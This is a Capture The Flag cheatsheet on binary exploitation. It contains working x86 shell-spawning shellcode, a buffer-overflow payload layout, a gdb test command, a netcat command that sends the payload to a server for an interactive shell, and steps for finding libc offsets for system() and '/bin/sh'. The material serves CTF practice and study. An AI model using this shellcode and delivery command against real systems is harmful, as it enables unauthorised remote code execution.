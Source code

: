 # Capture The Flag Cheatsheet

Example commands to aid in solving CTF problems.

## Binary Exploitation

#### Using 32-bit Shellcode

Reliable Linux/x86 (32-bit) shellcode. To find shellcode for your target architecture, see [shell-storm's list](http://shell-storm.org/shellcode/).

```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
```
Anatomy of a payload for bufferoverflow:

```
Buffer start                                                                                        Saved EBP                    Return address                                Next Return address         Argument list
|                                                                                                         |                                    |                                                        |                                        |
[optional NOP (0x90) bytes] [injected shellcode] [padding bytes] [fake/garbage address] [desired return address (&callee)] [callee's return address] [optional argument 1] [optional argument 2, etc]
```

Debugging shellcode in gdb - open binary, set a breakpoint at the start of the vulnerable function, run with payload bytes sent to stdin.

```
gdb ./binary
b vuln_func
r < <(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"')
```
Send the payload to server 10.0.0.1, listening on port 1337. Note the cat command to keeps the netcat sesssion open, granting an interactive shell:

```
(python2 -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80" + "\x90"*111 + "\x90"*4 + "\x80\xa0\x04\x08"'; cat) | nc 10.0.0.1 1337
```
#### Computing offsets into libc

Assume you the know the address, in memory, at which libc has been loaded and have a local copy of the same libc version. To get offset of system():

```
readelf -s /lib/x86_64-linux-gnu/libc-2.21.so | grep "system"
```

To get offset of the "/bin/sh" string:

```
strings -t x /lib/x86_64-linux-gnu/libc-2.21.so | grep "/bin/sh"
```